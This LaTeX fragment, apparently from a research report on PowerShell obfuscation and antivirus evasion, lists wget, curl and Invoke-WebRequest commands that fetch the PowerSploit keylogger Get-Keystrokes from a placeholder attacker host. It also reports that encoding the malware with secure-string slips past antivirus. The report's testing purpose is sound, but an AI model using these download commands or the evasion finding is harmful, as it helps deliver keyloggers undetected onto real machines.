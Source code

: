 \documentclass{article}%
\begin{document}
\subsection{Is it possible to bypass antivirus software,in order to download malware, by obfuscating the download command in PowerShell?"}
This question comes forth when looking at how McAfee is blocking the \textbf{Invoke-Expression} when used together with the \textit{Downloadstring} function. To test this the malware called Get-Keystrokes from [\hypertarget{8}{8}]PowerSploit was used. This script file is immediately seen as a virus by Win Defender, AVG and McAfee. The commands used in order to download the scripts were:\\
\begin{verbatim}
Invoke-WebRequest "http://IPAddress:Port/Get-Keystrokes.ps1" 
      -o "Get-Keystrokes.ps1"
wget "http://IPAddress:Port/Get-Keystrokes.ps1" -o 
    "Get-Keystrokes.ps1"
curl "http://IPAddress:Port/Get-Keystrokes.ps1" -o
    "Get-Keystrokes.ps1"
\end{verbatim}
Many different iterations of the obfuscation tools were used, with the focus on [\hyperlink{o1}{o1}]Token,AST,String and Encoding. The answer was very clear, all antivirus programs were able to detect the malware before it got downloaded and blocked it one hundred percent of the time. On the other hand, when \textbf{secure-string} encoding is used, the script could be easily downloaded without notifying any AV program.
\subsubsection{Conclusion}
It does not seem to be possible to obfuscate the download command in order to download malware that otherwise would have been blocked. However it is fairly simple to get malware on the system by encoding the malware itself. This could be a problem when it comes to other types of malware.
\subsection{In what ways could the standard defence of a Windows machine be bypassed.}
In this section, a sub-question will be answered that will aid with answering the upcoming sub-question: "What additional defence systems can be deployed against obfuscated PowerShell scripts". In order to answer this question, in this section a real world attack will be simulated. Therefore this section will be written from the perspective of the attacker. The results of the attack process will then afterwards be discussed from a defenders point of view.
\end{document}
